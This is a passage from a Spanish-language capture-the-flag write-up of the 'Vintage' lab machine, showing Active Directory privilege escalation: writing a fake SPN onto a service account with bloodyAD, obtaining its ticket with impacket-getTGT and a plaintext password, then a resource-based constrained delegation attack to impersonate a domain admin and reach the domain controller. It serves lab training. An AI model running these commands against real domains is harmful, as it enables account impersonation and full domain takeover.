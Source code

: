 <figure><img src="../../../.gitbook/assets/2755_vmware_gpGsZMuLhb (1).png" alt=""><figcaption></figcaption></figure>

Con el TGT del usuario (P.Rosa@vintage.htb) procederemos a asignarle al usuario "svc\_sql@vintage.htb) al cual tenemos privilegios de **GenericAll** sobre él un SPN (ServicePrincipalName) ficticio.

Una vez le asignemos un SPN ficticio, procederemos a solicitar el TGT del usuario (svc\_sql@vintage.htb).

{% code overflow="wrap" %}
```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName -v "cifs/gzzcoo"

impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb

export KRB5CCNAME=svc_sql.ccache

klist -e
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2756_vmware_n8moCcEObQ.png" alt=""><figcaption></figcaption></figure>

Obtenido el TGT del uisuario (svc\_sql@vintage.htb), teniendo el SPN ficticio asignado a este usuario, procederemos a realizar el **RBCD Attack** mediante la herramienta de **impacket-getST** para impersonar al usuario (l.bianchi\_admin@vintage.htb).

Una vez tengamos el TGT del usuario impersonado, procederemos a expotarlo en la variable _KRB5CCNAME_ y de acceder al Domain Controller mediante **wmiexec.py** a través del TGT solicitado.

Verificamos que ganamos acceso al Domain Controller siendo el Domain Admin (l.bianchi\_adm@vintage.htb) y podemos verificar la flag de **root.txt**.
